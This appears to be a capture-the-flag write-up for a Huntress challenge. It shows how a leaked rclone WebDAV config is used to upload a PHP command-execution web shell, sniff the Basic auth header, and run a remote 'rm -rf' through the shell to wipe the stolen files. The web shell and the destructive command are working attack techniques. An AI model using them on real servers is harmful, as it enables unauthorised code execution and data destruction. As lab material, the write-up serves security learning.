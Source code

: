 ```yaml
---
title: "Operation Eradication"
description: "Oh no! A ransomware operator encrypted an environment, and exfiltrated data that they will soon use for blackmail and extortion if they don't receive payment!"
author: "huntress"
date: "2023-10-14"
published: true
tags: ["capture the flag", "huntress", "malware", "web", "networks"]
---
```


# Operation Eradication

<aside>
Oh no! A ransomware operator encrypted an environment, and exfiltrated data that they will soon use for blackmail and extortion if they don't receive payment!
<strong>They stole our data!</strong>
Luckily, we found what looks like a configuration file, that seems to have credentials to the actor's storage server... but it doesn't seem to work. Can you get onto their server and
delete all the data they stole!?
</aside>


The challenge gives us a containerized HTTP server instance, alongside a file with no extension named simply `operation_eradication`.
Passing it as an arg for the `file` command, we're told it's just plaintext ASCII. Viewing it's contents, we are shown the following:

```toml
type = webdav
url = http://localhost/webdav
vendor = other
user = VAHycYhK2aw9TNFGSpMf1b_2ZNnZuANcI8-26awGLYkwRzJwP_buNsZ1eQwRkmjQmVzxMe5r
pass = HOUg3Z2KV2xlQpUfj6CYLLqCspvexpRXU9v8EGBFHq543ySEoZE9YSdH7t8je5rWfBIIMS-5
```

Doing a little bit of googling, we can ascertain the remote server is likely running a `WebDAV` ("Web-Distributed Authoring and Versioning") protocol service, which is effectively a
(apparently now-obselete) type of network-accessible file storage service. As indicated by the config's `url` param, we are able to access the service's front-end by adjusting the `localhost`
SLD to our assigned instance: `http://chal.ctf.games:30236/webdav`. The page is simply a blank white screen, so I assume we need to authenticate before we are able to see
the _actual_ content (though nothing indicates this explicitly).

After briefly reviewing WebDAV documentation alongside the tech stack used on the WebDAV endpoint, we can see the server accepts authentication via a `Basic` Authorization header, which we can craft by running
`echo -n <username>:<password> | base64 --wrap=0` in a bash terminal, replacing the `<username>` and `<password>` strings with the user's authentication info.

![1](/img/operation_eradication_img/Untitled.png)
>The root endpoint

![Untitled](/img/operation_eradication_img/Untitled%201.png)
>The `/webdav` endpoint

To me, those `user` and `pass` strings look like they've been hashed or encrypted, but we can try to make a GET request using the strings as the username and password anyway:
```bash
# base64-encode `username:password`
USER_AUTH=$(echo -n "VAHycYhK2aw9TNFGSpMf1b_2ZNnZuANcI8-26awGLYkwRzJwP_buNsZ1eQwRkmjQmVzxMe5r:HOUg3Z2KV2xlQpUfj6CYLLqCspvexpRXU9v8EGBFHq543ySEoZE9YSdH7t8je5rWfBIIMS-5" | base64 --wrap=0)

# make a request
curl http://chal.ctf.games:30236/webdav
   -H "Authorization: Basic $USER_AUTH"
```

As expected, this isn't correct.

![Untitled](/img/operation_eradication_img/Untitled%202.png)

We can try to do a bit of hashcracking & decryption, but we have no idea how these strings have been hashed - the `user` and `pass` strings are 72 characters long (i.e they don't look like a common hash type),
and preliminary hash analysis tools, google, and ChatGPT similarly have no idea.

We can instead Google the config file's layout, and find that it (probably) belongs to a WebDAV client CLI tool named `Rclone`.

Downloading Rclone, I was unable to simply dump the provided configuration file into the corresponding Rclone folder, but we can instead run through the setup to create our own (empty) config file,
and then replace it's content with that of the provided file:

```powershell
.\\rclone config

# ...
# this runs us through a config setup wizard...
# ...

Current remotes:

Name                 Type
====                 ====
huntress             webdav

# ...

s) Set configuration password
q) Quit config
e/n/d/r/c/s/q> q

# then replace it's contents with our desired config
# (don't forget that the service isn't running locally):

echo "[huntress]
type = webdav
url = http://chal.ctf.games:30236/webdav
vendor = other
user = VAHycYhK2aw9TNFGSpMf1b_2ZNnZuANcI8-26awGLYkwRzJwP_buNsZ1eQwRkmjQmVzxMe5r
pass = HOUg3Z2KV2xlQpUfj6CYLLqCspvexpRXU9v8EGBFHq543ySEoZE9YSdH7t8je5rWfBIIMS-5" > C:\\Users\\pls\\AppData\\Roaming\\rclone\\rclone.conf

cat C:\\Users\\pls\\AppData\\Roaming\\rclone\\rclone.conf
[huntress]
type = webdav
url = http://chal.ctf.games:30236/webdav
vendor = other
user = VAHycYhK2aw9TNFGSpMf1b_2ZNnZuANcI8-26awGLYkwRzJwP_buNsZ1eQwRkmjQmVzxMe5r
pass = HOUg3Z2KV2xlQpUfj6CYLLqCspvexpRXU9v8EGBFHq543ySEoZE9YSdH7t8je5rWfBIIMS-5
```

Having never used Rclone or interacted with a WebDAV service, it took a moment to get used to the commands and how we are meant to interact with a WebDAV service.
Essentially, we don't have to login and use an interactive shell like we might over SSH or FTP; rather, we simply indicate what config to use and run the command.

Lets try listing the WebDAV’s contents to see if our configuration works:

```powershell
.\\rclone tree huntress:
/
├── Accounting
│   ├── 2021
│   │   └── AnnualReport.pdf
│   ├── 2022
│   │   ├── Quarter1_MonthlyRevenue.xlsx
# ...
│   └── Training
│       ├── 2022
│       │   ├── AdvancedSalesSkillsCourse.pdf
│       │   └── NewSalesRepTraining.pdf
│       └── SalesTrainingManual.pdf
```

Looks like its functional. Unfortunately, we - or, rather, our WebDAV credentials - do not have the necessary permissions to run `.\\rclone delete huntress:/`.

We do, however, have write permissions, and so we are able to upload and save files onto the machine.

As is my immediate thought with any PHP service during a CTF, we are probably meant to gain code execution as `www-data` (who would usually have ownership of `/var/www/html/`, which likely contains the `/webdav` endpoint),
so my immediate thought is that we can try to execute code through a PHP script.

As previously stipulated, Rclone/WebDAV is non-interactive, so we’ll have to try to run something from the HTTP service. The service isn't locally available either, so the remote machine probably can't issue a direct call to our
machine, and we would need to run a tunnel via `ngrok` or something, and I honestly don’t want to overcomplicate the task when we can do what we want via a PHP `cmd` script and pass the server shell commands in GET request parameters:

```php
<?php if(isset($_REQUEST['cmd'])){ echo "<pre>"; $cmd = ($_REQUEST['cmd']); system($cmd); echo "</pre>"; die; }?>
```
> A simple PHP script that will run commands on the remote machine via the `system($cmd)` builtin, where `$cmd` is defined through a URL GET request parameter.

Copying the `cmd` script over, we are able to see that this is successfully written in the root directory of the WebDAV endpoint:

```powershell
.\\rclone copy C:\\...\\exec.php huntress:/
.\\rclone ls huntress:/
       50 exec.php
  1745724 ProductDevelopment/2022/ProductRoadmap.pdf
  3570194 ProductDevelopment/2023/ProductRoadmap.pdf
  3510400 HumanResources/EmployeeHandbook.pdf
  7680849 ProductDevelopment/Specifications/NewProductSpecs.pdf
  3891213 ProductDevelopment/Specifications/UpdatedProductSpecs.pdf
  ...
```

We are now missing one final piece before we can wipe the endpoint - we still don’t have the authentication info, and the approach I am taking requires that we make a request _without_ Rclone.

Because the service uses unencrypted HTTP, we can intercept traffic routed between Rclone and WebDAV using `Wireshark`; the result of which is the following:

```powershell
PROPFIND /webdav/ HTTP/1.1
Host: chal.ctf.games:30236
User-Agent: rclone/v1.64.2
Authorization: Basic VkFIeWNZaEsyYXc5VE5GR1NwTWYxYl8yWk5uWnVBTmNJOC0yNmF3R0xZa3dSekp3UF9idU5zWjFlUXdSa21qUW1WenhNZTVyOlN1cGVyRXh0cmVtZWx5U2VjdXJlUGFzc3dvcmRMaWtlQWx3YXlz
Depth: 1
Referer: http://chal.ctf.games:30236/webdav/
Accept-Encoding: gzip
```
> Intercepted header information from a `.\\rclone ls huntress:/` command.

We can now use `curl` to execute `bash -c "rm -rf <[the webdav endpoint]>...";`  as a `GET` param passed to the `exec.php` file we just uploaded - I’ve included an additional `echo 'done'` command after running `rm -rf` just to
ensure I know whether or not we executed any commands, as a sanity check if something doesn't end up working.

Realistically, though, we are just querying the script we uploaded, and using the URL param `?cmd=..` to open a bash shell and literally just execute bash commands. There is the authentication stuff here, but that was basically
pre-generated by Wireshark anyway.

The final request (along with it's response) is as follows:

```bash
curl -i -s -k -X $'GET' \\
    -H $'Host: localhost' -H $'User-Agent: rclone/v1.64.2' \\
    -H $'Authorization: Basic VkFIeWNZaEsyYXc5VE5GR1NwTWYxYl8yWk5uWnVBTmNJOC0yNmF3R0xZa3dSekp3UF9idU5zWjFlUXdSa21qUW1WenhNZTVyOlN1cGVyRXh0cmVtZWx5U2VjdXJlUGFzc3dvcmRMaWtlQWx3YXlz' \\
		-H $'Depth: 1' -H $'Referer: http://chal.ctf.games:30236/webdav/' -H $'Accept-Encoding: gzip' -H $'Content-Type: application/x-httpd-php' \\
    $'http://chal.ctf.games:30236/webdav/exec.php?cmd=bash+-c+\\"rm+-rf+/var/www/html/webdav/*;+echo+\\'done.\\'\\"'

HTTP/1.1 200 OK
Date: Fri, 20 Oct 2023 18:24:02 GMT
Server: Apache/2.4.54 (Debian)
X-Powered-By: PHP/7.4.33
Vary: Accept-Encoding
Content-Encoding: gzip
Transfer-Encoding: chunked
Content-Type: text/html; charset=UTF-8
```

We can go back and refresh the webapp's root directory, where we are presented with our flag:

![Untitled](/img/operation_eradication_img/Untitled%203.png)

